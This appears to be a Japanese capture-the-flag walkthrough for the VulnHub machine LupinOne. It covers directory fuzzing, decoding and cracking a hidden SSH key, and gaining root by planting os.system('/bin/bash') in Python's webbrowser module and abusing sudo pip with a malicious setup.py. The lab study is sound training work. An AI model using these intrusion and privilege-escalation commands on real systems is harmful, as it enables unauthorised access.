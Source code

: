 ## LupinOne

### ポートスキャンまで同じ
- 22,80

### 画像を調べる
- ステガノグラフィを調べる

### robots.txtを見る
- `curl http://$IP/robots.txt` 
- ヒントは`/~myfiles`で、ディレクトリの初めに~がついていることがわかる
- ~myfilesを見ても`404 error`になる  

### 隠しディレクトリを探す
- `wfuzz -c -z file,/home/user/vulnhub/SecLists-master/Discovery/Web-Content/raft-large-directories.txt  "http://$IP/~FUZZ/"`
  - `-c`でカラー表示
  - `-z file,`は辞書の指定だが、わかりにくいので`-w`でいい
  - 初めは`--h?`をつけずに実行して関係なさそうなのを探す。ここでは404のステータスコードを返しているので`--hc 404`をつける
- 見つかったファイルは`secret` `myfiles`、時間が長いので2つ見つけたら止める
- `wfuzz -c -z file,/home/user/vulnhub/SecLists-master/Discovery/Web-Content/raft-large-directories.txt  --hc 404 "http://$IP/~FUZZ/"`
  - helpを見て`--h?`を他に行や単語数、文字数でもやってみる 

- (別解)
- `gobuster fuzz -u http://$IP/~FUZZ -w /usr/share/wordlists/dirb/common.txt -b 404`
  - `secret` 異なる辞書を使っている 

### サイトを見る
- 見つけたリンクでサイトを翻訳して確認する。分かったことがある
  - このディレクトリに秘密鍵があること
  - 秘密鍵はfasttrackで解析する
  - ユーザ名はicex64であること
 
### fasttrackとは
- 移動してみる/usr/share/wordlists/fasttrackにある辞書
- `less fasttrack.txt`中身を見るとパスワードファイルらしい
- `wc fasttrack.txt`数が少ない


### さらに隠しファイルを探すが、その前に辞書を整理する
- wfuzzの特性上`#`も200(成功)に反応するので、`#`を辞書から削除する
  - `#`はフラグメント識別子と言って、サイト内の特定の場所に移動できる  
- `grep -v '^\s*#' /usr/share/wordlists/rockyou.txt > ./custom_rockyou.txt`
  - `-v`は`'^\s*#'`以外の正規表現を抜き出す
  -  `^#`は単語の最初が#であるのを抽出
  - `\s`はスペースのことで`\s*`はスペースが０以上あるものを抽出 

### 隠しファイルを探す
- 本来は辞書のファイルを使うが、ここで欲しいのは秘密鍵のファイルで拡張子が`.txt`なので、上で作った、パスワードファイルのrockyou.txtを使う
- また隠れファイルなので頭に`.`をつける。正直、これだけのヒントでFUZZの頭にドットをつけるのに気づくのは難しいと思う
- `wfuzz -c -z file,./custom_rockyou.txt --hc 400,404 "http://$IP/~secret/.FUZZ.txt"`
  - `--hc`statusの400,404は表示させない 
- (別解)
- `gobuster fuzz -u http://$IP/~secret/.FUZZ -w /usr/share/wordlists/rockyou.txt -b 404`

### textのダウンロード
- `curl http://$IP/~secret/.mysecret.txt > .mysecret2.txt`
- または
- `curl -OL http://$IP/~secret/.mysecret.txt`
  - `-L`リダイレクト,`-O`標準出力せずにダウンロードする 
- コピーする

### ファイルを分析
- ファイルを見た感じでは秘密鍵でなく、何かしらの暗号化されているのはわかるので調べる
- `cat .mysecret2.txt | grep -o . | sort | uniq | wc`
- 58なのでBase58

### CyberChefでdecode
- CyberChefでInputでコピーをペーストする
- 一番左のsearchに`from base`と入力する。
- 青色の背景になるのでFrom base32~From base92まで順に文字化けしないのを試していく。その際に真ん中のRecipeに変換するのが出てくるので、ゴミ箱があるので一つ試したらゴミ箱を押して消して次に進んでいく
- Base58でデコード(復号)する。そして、コピーする
- `cat > key`で貼り付ける。注意するのは、ペーストしたら改行してから、`ctrl + c`で抜ける
- Permissionを変更する
  - `chmod 700 key`
  - なぜか`chmod 777 key`にするとsshが繋がらない

### パスフレーズの解析
- 2通りある、片方でやってもいいし最後に同じpassになっているか確認するのもいい
- (1) コマンドを使う。とても簡単これだけでもいい
  - `ssh2john key > pass.txt` 
- (2) スクリプトをダウンロードして使う
  - sshのパスフレーズを解析するのにssh2johnを使うが、Evilboxの時と同じように改良する
  - `github johntheripper bleeding-jumbo ssh2john py`で検索したコードをコピーする
  - `cat > ssh2john_v2.py` ペーストする。注意点は改行してから`ctrl + c`で抜けること
  - `chmod +x ssh2john_v2.py`
  - john the ripperで使えるようにフォーマットを変換する
  -  `python3 ssh2john_v2.py key > pass2.txt`
- 同じファイルになっているか確認する
  - `md5sum pass.txt pass2.txt`
  - 同じハッシュ値になっている
- 暗号解析
  - `sudo john pass.txt -wordlist=/usr/share/wordlists/fasttrack.txt`
  - パスフレーズが取得できる
  - `P@55w0rd!` 

### sshでアクセス
- `ssh -i key icex64@$IP`
  - パスフレーズの入力 

### システム内の調査
- `sudo -l`
  - `(arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py`
- icex64はパスワードなしでarseneとして/home/arsene/heist.pyファイルが実行できることがわかる。つまり実行することで、arseneになることができる
- heist.pyの中身を見る、これが何をしているか？
- Permissionから何がわかる？
- 本来なら、このpyファイルに書き込みたいが、できないのでwebbrowser関数の中に書き込む

### 攻撃アプローチ
- webbrowserがどこにあるか調べる
  - `locate webbrowser`
  - または
  - `find / -name webbrowser* 2> /dev/null`
- webbrowserファイルを開く
  -  `nano /usr/lib/python3.9/webbrowser.py`
  -  import osの下に`os.system("/bin/bash")`を書き込む


### 別ユーザで権限取得
- `sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py`
  - `-u`sudoをユーザを指定して実行する 
- arseneが使えるルートコマンドを調べる
  - `sudo -l` 
- pipコマンドが使える。GTFOBinsのSudoの部分を参考にする。pipはPythonのモジュールをインストールできるコマンド。なので、架空のモジュールを作ってpipを利用する
- 一時的なディレクトリを作って、そこにルートコマンドになれるpythonのセットファイルを作る。変数の設定時にはスペースを空けてはダメ
  - `cd /tmp`
  - `TF=$(mktemp -d)`
  - `echo $TF`
  - `echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh < $(tty) > $(tty) 2> $(tty)')" > $TF/setup.py`
    - os.execl('/bin ~ $(tty)') これをシングルクォーテーションひとつで書くとエラーになる。なぜかはわからん 
  - `ls $TF`
  - `sudo pip install $TF`

### ルートフラグの取得
- ルートシェルを奪取できた
- `cd /root`
- `cat root.txt`




